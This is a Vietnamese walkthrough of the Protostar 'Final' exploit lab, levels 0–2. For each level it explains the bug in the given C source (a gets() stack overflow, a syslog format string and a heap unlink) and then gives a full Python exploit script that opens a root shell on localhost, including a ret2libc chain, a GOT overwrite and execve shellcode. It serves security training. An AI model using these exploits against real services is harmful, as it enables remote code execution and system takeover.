


# Final
### Final 0
```c
#include "../common/common.c"

#define UID 0
#define GID 0
#define PORT 2995

/*
 * Read the username in from the network
 */

char *get_username()
{
  char buffer[512];
  char *q;
  int i;

  memset(buffer, 0, sizeof(buffer));
  gets(buffer);

  /* Strip off trailing new line characters */
  q = strchr(buffer, '\n');
  if(q) *q = 0;
  q = strchr(buffer, '\r');
  if(q) *q = 0;

  /* Convert to lower case */
  for(i = 0; i < strlen(buffer); i++) {
      buffer[i] = toupper(buffer[i]);
  }

  /* Duplicate the string and return it */
  return strdup(buffer);
}

int main(int argc, char **argv, char **envp)
{
  int fd;
  char *username;

  /* Run the process as a daemon */
  background_process(NAME, UID, GID); 
  
  /* Wait for socket activity and return */
  fd = serve_forever(PORT);

  /* Set the client socket to STDIN, STDOUT, and STDERR */
  set_io(fd);

  username = get_username();
  
  printf("No such user %s\n", username);
}
```
Trong source code xuất hiện hàm `gets()`, theo kinh nghiệm thì mình nghĩ ngay đến buffer overflow. Để ý thấy có 1 vòng lặp chuyển tất cả các ký tự của xâu `buffer` sang chữ hoa, nhưng sau khi phân tích mình thấy cũng không ảnh hưởng gì đến shellcode nên có thể bỏ qua. Sau khi thử truyền vào 1 xâu rác, chương trình không còn hoạt động như ban đầu nữa và xuất hiện file core dumps:


Mình sử dụng file này kết hợp với quyền root để debug:


Có thể thấy được chương trình bị lỗi do return address bị ghi đè bởi `0x67666666` => đây chính là vị trí của return address ta đang tìm kiếm.
Dùng command `info function @plt` trong gdb để tìm địa chỉ hàm `execve@plt`:


Tìm địa chỉ xâu `/bin/sh` trong libc:



Hoàn thành script:
```py
import struct
import socket
import telnetlib

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 2995))

buf = "a" * 510 + "\x00" + "aaaabbbbccccddddeeeef"
execve = struct.pack("I", 0x08048c0c)
binsh = struct.pack("I", 0xb7e97000 + 1176511)
exploit = buf + execve + "aaaa" + binsh + "\x00" * 8

s.send(exploit + "\n")
t = telnetlib.Telnet()
t.sock = s
t.interact()
```
Kết quả:


### Final 1
```c
#include "../common/common.c"

#include <syslog.h>

#define NAME "final1"
#define UID 0
#define GID 0
#define PORT 2994

char username[128];
char hostname[64];

void logit(char *pw)
{
  char buf[512];

  snprintf(buf, sizeof(buf), "Login from %s as [%s] with password [%s]\n", hostname, username, pw);

  syslog(LOG_USER|LOG_DEBUG, buf);
}

void trim(char *str)
{
  char *q;

  q = strchr(str, '\r');
  if(q) *q = 0;
  q = strchr(str, '\n');
  if(q) *q = 0;
}

void parser()
{
  char line[128];

  printf("[final1] $ ");

  while(fgets(line, sizeof(line)-1, stdin)) {
      trim(line);
      if(strncmp(line, "username ", 9) == 0) {
          strcpy(username, line+9);
      } else if(strncmp(line, "login ", 6) == 0) {
          if(username[0] == 0) {
              printf("invalid protocol\n");
          } else {
              logit(line + 6);
              printf("login failed\n");
          }
      }
      printf("[final1] $ ");
  }
}

void getipport()
{
  int l;
  struct sockaddr_in sin;

  l = sizeof(struct sockaddr_in);
  if(getpeername(0, &sin, &l) == -1) {
      err(1, "you don't exist");
  }

  sprintf(hostname, "%s:%d", inet_ntoa(sin.sin_addr), ntohs(sin.sin_port));
}

int main(int argc, char **argv, char **envp)
{
  int fd;
  char *username;

  /* Run the process as a daemon */
  background_process(NAME, UID, GID); 
  
  /* Wait for socket activity and return */
  fd = serve_forever(PORT);

  /* Set the client socket to STDIN, STDOUT, and STDERR */
  set_io(fd);

  getipport();
  parser();

}
```
Đây là 1 bài format string tuy nhiên mình không thấy xuất hiện những hàm giống `printf()` như những bài trước. Thử kiểm tra hàm "lạ" `syslog()` xem nó hoạt động như thế nào:


Tham số thứ 2 của hàm `syslog()` hoạt động giống như chuỗi định dạng của hàm `printf()` => có thể khai thác hàm này. Sau khi thử thì kết quả đúng như dự đoán (kiểm tra log bằng quyền root với lệnh `cat /var/log/syslog`):


Mình sẽ ghi đè địa chỉ trong bảng GOT, cụ thể là ghi đè địa chỉ của `strncmp()` bằng địa chỉ hàm `system()`.



Script:

```py
import socket
import struct
import telnetlib

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 2994))

def read_until(str):
        buf = ""
        while str not in buf:
                buf += s.recv(1)
        return buf

strncmp_got1 = struct.pack("I", 0x0804a1a8)
strncmp_got2 = struct.pack("I", 0x0804a1a8 + 2)
ip, port = s.getsockname()
host = ip + ":" + str(port)
pad_to_align = "a" * (24 - len(host))

username_buf = pad_to_align + "bbbb" + strncmp_got1 + strncmp_got2 + "%65404x" + "%18$n" + "%47164x" + "%19$n"
login_buf = "1111"

print read_until("[final1] $ ")
s.send("username "+ username_buf + "\n")
print read_until("[final1] $ ")
s.send("login " + login_buf  + "\n")
print read_until("[final1] $ ")

t = telnetlib.Telnet()
t.sock = s
t.interact()
```
Kết quả:


### Final 2
```c
#include "../common/common.c"
#include "../common/malloc.c"

#define NAME "final2"
#define UID 0
#define GID 0
#define PORT 2993

#define REQSZ 128

void check_path(char *buf)
{
  char *start;
  char *p;
  int l;

  /*
  * Work out old software bug
  */

  p = rindex(buf, '/');
  l = strlen(p);
  if(p) {
      start = strstr(buf, "ROOT");
      if(start) {
          while(*start != '/') start--;
          memmove(start, p, l);
          printf("moving from %p to %p (exploit: %s / %d)\n", p, start, start < buf ?
          "yes" : "no", start - buf);
      }
  }
}

int get_requests(int fd)
{
  char *buf;
  char *destroylist[256];
  int dll;
  int i;

  dll = 0;
  while(1) {
      if(dll >= 255) break;

      buf = calloc(REQSZ, 1);
      if(read(fd, buf, REQSZ) != REQSZ) break;

      if(strncmp(buf, "FSRD", 4) != 0) break;

      check_path(buf + 4);     

      dll++;
  }

  for(i = 0; i < dll; i++) {
                write(fd, "Process OK\n", strlen("Process OK\n"));
      free(destroylist[i]);
  }
}

int main(int argc, char **argv, char **envp)
{
  int fd;
  char *username;

  /* Run the process as a daemon */
  background_process(NAME, UID, GID); 
  
  /* Wait for socket activity and return */
  fd = serve_forever(PORT);

  /* Set the client socket to STDIN, STDOUT, and STDERR */
  set_io(fd);

  get_requests(fd);

}
```
Đọc source thì mình thấy code này chưa đúng với file binary, vì thiếu đoạn code gán từng phần tử của mảng `destroylist` bằng con trỏ `buf` sau mỗi lần lặp. Đây là 1 bài heap và có xuất hiện hàm `free()` nên mình sẽ thử làm theo hướng unlink (vì nhìn qua thì có vẻ lỗi UAF hơi no hope). Nhưng vấn đề là khai thác lỗi unlink như thế nào?
Chúng ta quan sát hàm `check_path()`:


Đoạn code này khai báo 2 con trỏ kiểu `char` là 1 biến kiểu `int`. Con trỏ `p` sẽ trỏ tới vị trí cuối cùng mà kí tự `'/'` xuất hiện trong xâu `buf`, trong khi `l` lưu độ dài của xâu `p` (tính bằng số ký tự từ vị trí mà `p` trỏ tới đến khi gặp `\0`).

Nếu con trỏ `p` nhận giá trị khác `null`, con trỏ `start` sẽ trỏ đến vị trí đầu tiên mà xâu `"ROOT"` xuất hiện trong `buf`. Tiếp theo `start` sẽ trỏ đến vị trí của ký tự `'/'` đầu tiên ngay trước xâu `"ROOT"`, cuối cùng là ghi đè vùng nhớ bắt đầu từ vị trí này bởi các byte ở vùng nhớ `p` đang trỏ tới (`l` byte). 

Vậy vấn đề ở đâu? Để ý kỹ hơn, mình thấy nếu như trong xâu `buf` đang được truyền vào hàm không có ký tự `'/'` nào trước `"ROOT"`, con trỏ `start` sẽ bị tràn sang xâu liền trước (trong heap thì sẽ là đoạn chunk liền trước), như vậy ta có thể ghi đè lên vùng nhớ không mong muốn. Đặc biệt hơn, nếu có thể ghi đè vùng nhớ này theo ý của mình thì hoàn toàn có thể khai thác được lỗi unlink tương tự như bài heap3.
```py
import socket
import struct
import telnetlib

REQSZ = 128

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 2993))

def pad(m):
        padding  = "\x00" * (REQSZ - len(m))
        _m = "FSRD" + m + padding
        return _m[:REQSZ]

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

s.send(pad("/ROOT///" + "/" * 12 + "\xeb\x0e" + "AABBBBCCCCDDDD" + shellcode + "/" * 128))
fake_chunk = struct.pack("I", 0xfffffffc) + struct.pack("I", 0xfffffffc)
fake_chunk += struct.pack("I", 0x0804d41c-12) + struct.pack("I", 0x0804e020)
s.send(pad("ROOT/" + fake_chunk))

while True:
        msg = raw_input("> ")
        if msg:
                print "msg: {}".format(repr(pad(msg)))
                s.send(pad(msg))
        else:
                break

t = telnetlib.Telnet()
t.sock = s
t.interact()
```

Kết quả:

